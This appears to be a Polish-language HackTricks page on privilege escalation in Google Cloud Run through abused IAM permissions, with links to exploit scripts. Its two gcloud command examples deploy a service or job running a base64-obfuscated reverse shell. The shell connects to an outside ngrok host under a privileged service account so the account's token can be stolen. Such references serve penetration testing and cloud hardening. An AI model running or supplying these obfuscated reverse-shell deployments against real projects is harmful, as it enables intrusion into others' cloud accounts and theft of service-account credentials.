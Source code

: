 # GCP - Uruchom Privesc

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Cloud Run

Aby uzyskać więcej informacji na temat Cloud Run, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create`, `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

Atakujący posiadający te uprawnienia może **utworzyć usługę uruchamiania, uruchamiając dowolny kod** (dowolny kontener Docker), dołączyć do niej konto usługi i sprawić, aby kod **wyciekł token konta usługi z metadanych**.

Skrypt wykorzystujący tę metodę można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py), a obraz Docker można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Należy zauważyć, że podczas korzystania z `gcloud run deploy` zamiast tylko tworzenia usługi **wymagane jest uprawnienie `update`**. Sprawdź [**przykład tutaj**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update`, `iam.serviceAccounts.actAs`

Podobnie jak poprzednia, ale aktualizując usługę:
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

Nadaj sobie wcześniejsze uprawnienia do chmury Run.

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

Uruchom zadanie z odwróconym powłoką, aby ukraść konto usługi wskazane w poleceniu. Możesz znaleźć [**exploit tutaj**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh).

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

Podobnie jak w poprzednim przypadku, możliwe jest **zaktualizowanie zadania i zaktualizowanie SA**, **polecenie** i **wykonanie go**:
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

Nadaj sobie wcześniejsze uprawnienia do Cloud Jobs.

## Referencje

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
